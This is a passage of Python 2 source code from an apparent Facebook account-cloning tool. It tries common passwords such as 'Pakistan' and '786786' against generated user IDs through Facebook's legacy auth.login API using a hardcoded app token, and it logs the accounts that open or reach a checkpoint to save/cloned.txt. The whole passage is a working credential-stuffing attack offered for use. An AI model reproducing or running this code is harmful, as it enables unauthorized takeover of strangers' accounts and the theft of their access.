                             q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;93m(Jatoi Open)  ' + k + c + user + '  |  ' + pass3
                                okb = open('save/cloned.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\033[1;97m(Jatoi Cp) ' + k + c + user + '  |  ' + pass3 
                                    cps = open('save/cloned.txt', 'a')
                                    cps.write(k+c+user+pass3+'\n')
                                    cps.close()
                                    cpb.append(c+user+pass3)
                                else:
                                    pass4="Pakistan"
                                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;93m(Jatoi Open)  ' + k + c + user + '  |  ' + pass4 
                                        okb = open('save/cloned.txt', 'a')
                                        okb.write(k+c+user+pass4+'\n')
                                        okb.close()
                                        oks.append(c+user+pass4)
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\033[1;97m(Jatoi Cp) ' + k + c + user + '  |  ' + pass4
                                            cps = open('save/cloned.txt', 'a')
                                            cps.write(k+c+user+pass4+'\n')
                                            cps.close()
                                            cpb.append(c+user+pass4)
                                        else:
                                            pass5="786786"
                                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                            q = json.load(data)
                                            if 'access_token' in q:
                                                print '\x1b[1;93m(Jatoi Open)  ' + k + c + user + '  |  ' + pass5
                                                okb = open('save/cloned.txt', 'a')
                                                okb.write(k+c+user+pass5+'\n')
                                                okb.close()
                                                oks.append(c+user+pass5)
                                            else:
                                                if 'www.facebook.com' in q['error_msg']:
                                                    print '\033[1;97m(Saqii Cp) ' + k + c + user + '  |  ' + pass5 
                                                    cps = open('save/cloned.txt', 'a')
                                                    cps.write(k+c+user+pass5+'\n')
                                                    cps.close()
                                                    cpb.append(c+user+pass5)
                                                                                                                                                                                                                